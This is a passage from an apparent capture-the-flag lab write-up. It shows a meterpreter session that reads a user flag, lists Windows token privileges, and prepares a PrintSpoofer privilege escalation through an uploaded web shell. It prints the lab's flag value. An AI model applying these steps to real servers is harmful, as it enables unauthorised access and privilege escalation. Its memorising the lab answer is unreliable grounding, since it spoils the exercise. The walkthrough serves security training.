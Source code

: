 ## User flag

From here, we eventually get the user flag:

~~~
meterpreter > cat c:/users/bob/desktop/user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
~~~

# Root flag

## List privileges

Checking our privileges with `getpriv` in our meterpreter session reveals that we are granted with `SeImpersonatePrivilege`.

~~~
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
~~~

## PrintSpoofer

To exploit this impersonation privilege, the standard *potato* exploit won't work, and we'll use a new tool called [PrintSpoofer](https://github.com/itm4n/PrintSpoofer).

[Download](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/), Compile (in Microsoft Visual Studio) and upload `PrintSpoofer.exe` to the target.

~~~
c:\>cd \inetpub\wwwroot\nt4wrksv
cd \inetpub\wwwroot\nt4wrksv

c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

08/28/2020  11:54 PM    <DIR>          .
08/28/2020  11:54 PM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
08/28/2020  11:47 PM            27,136 PrintSpoofer.exe
08/28/2020  11:54 PM         1,015,587 shell.aspx
               3 File(s)      1,042,821 bytes
               2 Dir(s)  20,256,440,320 bytes free

~~~
